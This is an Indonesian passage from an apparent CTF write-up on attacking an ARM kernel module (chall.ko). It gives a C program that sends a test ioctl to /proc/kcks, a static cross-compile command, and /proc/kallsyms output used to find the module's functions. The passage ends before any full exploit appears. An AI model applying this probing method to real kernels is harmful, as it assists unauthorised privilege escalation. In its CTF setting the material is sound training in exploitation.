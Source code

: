 

### Dynamic Analysis

Buatlah file .c yang akan berkomunikasi dengan kernel module. berikut adalah sepotong c code yang digunakan untuk berkomunikasi dengan kernel module /proc/kcks dengan ioctl :
```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdlib.h>
#include <signal.h>

typedef struct req_userland{
    unsigned long address;
}req_userland;

int main(){
 req_userland uland;
 int fd;
 /*
 // pastikan nama devicenya sama dengan static analysis, disini kita menggunakan /proc/kcks
 // dikarenakan pada fungsi init_module dia memanggil fungsi proc_create("kcks", 00, 00)
 // jika pada init_module memanggil proc_create("tes", 00, 00) maka kita gunakan /proc/tes
 */
 fd = open("/proc/kcks",O_RDWR);  
 uland.address = 0x41414141;
 ioctl(fd, 0, &uland);
 return 0;
}

```

compiled code tersebut dengan -static, dikarenakan disini kita menyerang arm kernel maka compiled dengan command berikut
```
arm-linux-gnueabi-gcc -static solv.c -o solv
```
lalu pindah file solv ke folder initramfs, dan jalankan `./launch.sh`

dapatkan address chall.ko dengan command `cat /proc/kallsyms | grep chall` dan lihat address device_ioctl

```
# cat /proc/kallsyms | grep chall
c0d2953c T fib_rule_matchall
c0d63750 t tcp_send_challenge_ack.constprop.0
bf000000 t $a	[chall]
bf000000 t device_open	[chall]
bf000008 t device_read	[chall]
bf000010 t device_write	[chall]
bf000018 t device_ioctl	[chall]
bf0000b0 t device_release	[chall]
bf0000f0 t cleanup_module	[chall]
bf0000b8 t init_module	[chall]

```
Sebelum menjalankan gdb, akan lebih mudah jika kita menggunakan gdb gef supaya bisa menampilkan instruction, register, stack tanpa perlu menjalankan command secara berulang, untuk menginstall gdb-gef jalankan command berikut (pastikan command curl sudah ter-install)
